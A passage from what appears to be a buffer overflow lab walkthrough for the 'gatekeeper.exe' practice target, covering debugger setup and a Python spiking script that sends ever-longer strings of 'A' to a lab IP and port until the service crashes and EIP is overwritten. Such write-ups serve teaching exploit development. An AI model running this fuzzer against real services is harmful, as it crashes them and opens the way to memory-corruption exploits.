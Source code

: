 You need to install the Immunity Debugger and Mona Python Modules in order to proceed with the following in order to observer the results of our scripts and identify the memory address where the crash occurs.
Let's start the Immunity Debugger as an admin and the vulnerable program "gatekeeper.exe" and then attach the program to the Immunity Debugger:

![Start_ImmunityDebugger](start_ImmunityDebugger.png) 

Then click the start button:

![Start_Program](start_Program.png)

Let's go back to our Kali machine and run our first Python template

```Python
#!/usr/bin/python

import sys,socket
from time import sleep

buffer = "A" * 100
RHOST = "192.168.0.227"
RPORT = 31337

while True:
    try:
        s=socket.socket(socket.AF_INET,socket.SOCK_STREAM)
        s.connect((RHOST,RPORT))
        s.send(buffer + '\r\n')
        s.close()
        sleep(1)
        buffer += "A" * 100
    except:
        print("Debugger crashed at %s bytes" % str(len(buffer)))
        sys.exit
```
When we look at our Windows VM, we'll see that the program crashed and we wrote EIP with 4 As (41 is the hex value of A). Once we see that EIP is overwritten, we can go back to our Kali machine and stop running our Python spiking script:

![Python_Spiking](runPythonSpiking.png)

![Python_EIP](PythonoverwroteEIP.png)

![Python_StopSpiking](stopPythonspiking.png)

We can see that the program crashed at 500 bytes. We'll use this information to find the offset in the next step.

[<= Go Back to BOF Menu](BOFMain.md)

[<= Go Back to Main Menu](index.md)
